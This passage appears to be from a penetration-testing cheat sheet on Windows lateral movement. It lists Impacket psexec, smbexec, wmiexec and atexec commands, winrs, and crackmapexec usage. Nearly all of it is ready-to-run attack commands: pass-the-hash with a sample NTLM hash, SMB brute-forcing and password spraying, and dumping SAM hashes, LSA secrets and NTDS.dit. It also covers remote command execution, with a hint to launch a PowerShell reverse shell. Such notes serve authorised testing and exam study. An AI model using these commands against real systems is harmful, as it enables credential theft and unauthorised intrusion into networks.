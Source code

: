 ```powershell
psexec.py <domain>/<user>:<password1>@<IP>
# the user should have write access to Admin share then only we can get sesssion

psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

smbexec.py <domain>/<user>:<password1>@<IP>

smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

wmiexec.py <domain>/<user>:<password1>@<IP>

wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command> 
#we passed full hash here

atexec.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 <domain>/<user>@<IP> <command>
#we passed full hash here
```

### winrs

```powershell
winrs -r:<computername> -u:<user> -p:<password> "command"
# run this and check whether the user has access on the machine, if you have access then run a powershell reverse-shell
# run this on windows session
```

### crackmapexec

- If stuck make use of [Wiki](https://www.crackmapexec.wiki/)

```powershell
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' #grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  #Password spraying, viceversa can also be done

#Try --local-auth option if nothing comes up
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares #lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users #we need to provide DC ip
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions #active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam #SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa #dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds #dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} #we can also run with a specific group and enumerated users of that group.
crackmapexec smb <Rhost/range> -u 'user' -p 'password' -x 'command' #For executing commands, "-x" for cmd and "-X" for powershell command

#Pass the hash
crackmapexec smb <ip or range> -u username -H <full hash> --local-auth
#We can run all the above commands with hash and obtain more information
```